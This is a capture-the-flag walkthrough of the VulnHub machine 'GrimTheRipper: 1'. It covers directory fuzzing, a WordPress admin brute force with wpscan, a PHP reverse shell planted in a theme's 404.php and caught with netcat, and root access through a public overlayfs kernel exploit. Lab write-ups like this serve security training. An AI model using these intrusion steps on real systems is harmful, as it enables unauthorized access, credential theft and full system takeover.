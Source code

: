 # GrimTheRipper: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.252 00:0c:29:b1:00:86       VMware, Inc.
192.168.127.254 00:50:56:f1:df:13       VMware, Inc.
```

The IP address is `192.168.127.252`, let's enumerate it

## 2.Enumeration

I started with checking and fuzzing the website and checking robots.txt:

```bash
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.252/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.127.252/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
index                   [Status: 200, Size: 55, Words: 2, Lines: 4, Duration: 20ms]
image                   [Status: 200, Size: 67169, Words: 142, Lines: 220, Duration: 1ms]
index2                  [Status: 200, Size: 122, Words: 5, Lines: 12, Duration: 2ms]
robots                  [Status: 200, Size: 24, Words: 1, Lines: 4, Duration: 5ms]
```

we found a new directory `index2` which when you navigate to its page source you find this :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/47ebbe17-926f-4a02-9ecf-eebb212461c1)


Try to decode the base64 string :

```bash
root@kali: echo -n 'THpFd01UQXhNREU9IHRyeSBoYXJk' | base64 -d
LzEwMTAxMDE= try hard 
```

and another decode :

```bash
root@kali: echo -n 'LzEwMTAxMDE=' | base64 -d                
/1010101  
```

now we found `/1010101` to check on the server :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/eb82326f-43c5-429e-9348-50912634b1bb)


when you navigate to `wordpress` directory, you will see that all links are broken, this is because all links point to `127.0.0.1`

we can run a port forwarder to redirect these request to server :

```bash
root@kali: socat TCP-LISTEN:80,fork TCP:192.168.127.252:80
```

now all links work fine :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/aba2eba4-8ed8-4707-ae61-f79702af419b)

now i use `wpscan` to find any plugin or user on the target :

```bash
root@kali: wpscan --url http://192.168.127.252/1010101/wordpress/ -e u,ap

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <============================================================================================================> (10 / 10) 100.00% Time: 00:00:01
[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

it found no plugin but found user `admin`.

i tried different things but at last i just brute forced the admin user with wpscan to find the password :

put user `admin` into user.txt

```bash
wpscan --url http://192.168.127.252/1010101/wordpress/ -U user.txt -P /usr/share/wordlists/rockyou.txt
```

- found the password : Password@123 

now we can login to admin panel

## 3.Gaining Shell

All we need to do is to edit page `404.php` of `twentytwelve` theme and put a pentestMonkey PHP reverse shell into it and start a listener :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/dc1c9195-ac8d-4d9b-b09c-b5d8acd3872a)



```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.252] 38397
Linux ubuntu 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:51:20 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
 05:12:45 up 51 min,  0 users,  load average: 0.02, 0.25, 0.60
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation

Now we just check the kernel version of the server :

```bash
$ uname -a
Linux ubuntu 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:51:20 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

$ cat /etc/os-release
NAME="Ubuntu"
VERSION="12.04.5 LTS, Precise Pangolin"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu precise (12.04.5 LTS)"
VERSION_ID="12.04"
```

and check for any exploit in searchsploit :

```bash
root@kali: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation | linux/local/37292.c
```

upload on the server and compile it and run it :

```bash
$ cd /tmp

$ ./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

this is how you can get root on this machine :)






